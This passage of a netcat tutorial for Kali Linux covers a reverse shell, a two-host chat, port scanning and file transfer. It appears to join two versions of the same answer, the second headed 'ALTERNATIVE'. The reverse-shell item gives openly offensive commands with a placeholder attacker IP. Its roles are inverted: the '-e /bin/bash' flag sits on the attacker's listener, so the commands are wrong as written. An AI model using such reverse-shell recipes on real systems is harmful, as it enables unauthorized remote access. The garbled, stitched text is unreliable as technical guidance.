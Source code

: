 5. **Reverse Shell:**
   Create a reverse shell to connect back to an attacker's machine.

   On the attacker's machine:

   ```bash
   nc -l -p [port] -e /bin/bash
   ```

   On the target machine:

   ```bash
   nc [attacker's IP] [port]
   ```

   **Note:** Use responsibly and ethically. Unauthorized access is illegal.

6. **Chat Between Two Hosts:**
   Set up a simple chat.

   On one machine:

   ```bash
   nc -l -p 1234
   ```

   On another machine:

   ```bash
   nc [first machine's IP] 1234
   ```

   Type messages in either terminal to chat.

### Conclusion

Netcat is a powerful tool for network debugging, file transfers, and even creating simple servers and clients. Always ensure you're using it within legal and ethical boundaries.



                                                    ALTERNATIVE
The `netcat` tool is a powerful network utility that can be used for a variety of purposes, including port scanning, file transfers, and more. Here are some common ways to use `netcat` on Kali Linux:

1. **Port Scanning**:
   ```
   nc -z -v <target_ip> <start_port>-<end_port>
   ```
   This command will perform a TCP port scan on the specified IP address and port range, displaying the open ports.

2. **File Transfer**:
   - On the server (recipient) machine:
     ```
     nc -l -p <port> > received_file.txt
     ```
   - On the client (sender) machine:
     ```
     nc <server_ip> <port> < file_to_send.txt
     ```
   This will transfer the file from the client to the server.
